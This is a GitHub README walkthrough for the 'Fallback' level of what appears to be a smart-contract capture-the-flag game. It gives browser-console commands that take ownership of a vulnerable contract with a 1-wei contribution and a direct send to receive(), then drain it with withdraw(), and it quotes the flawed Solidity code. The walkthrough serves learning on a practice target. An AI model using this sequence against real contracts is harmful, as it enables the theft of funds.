 # Level 1 - Fallback challenge 🚧 Update In Progress 🏗
<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level1&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

## Player will use browser console for this attack.
```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```
In order to pass the require statement player must use function contribute() 1 wei will be enough, using the console
player calls await contract.contribute({value: 1}).
```JavaScript
await contract.contribute({value: 1});
```
Next player calls await contract.sendTransaction({value: 1}) to the fallback function receive().
```JavaScript
await contract.sendTransaction({value: 1 });
```
Player can verify ownership with await contract.owner().
```JavaScript
await contract.owner();
```
Player will now be able to withdraw all tokens using await contract.withdraw().
```JavaScript
await contract.withdraw();
```
## Code snippets from contract showing vulnerablities.
```Solidity
 /** 
 @notice This fallback function receive() is the main attack target, in order to pass the 
  require statement player must use function contribute() 1 wei will be enough, using the console
  player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
  player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
  */
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender; 
  }
  
  /** 
  @notice This function could use a withdraw limit, but this allows player to exploit the 
  vulnerability to withdraw all funds using await contract.withdraw() to complete this level. 
  */
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
  ```
  
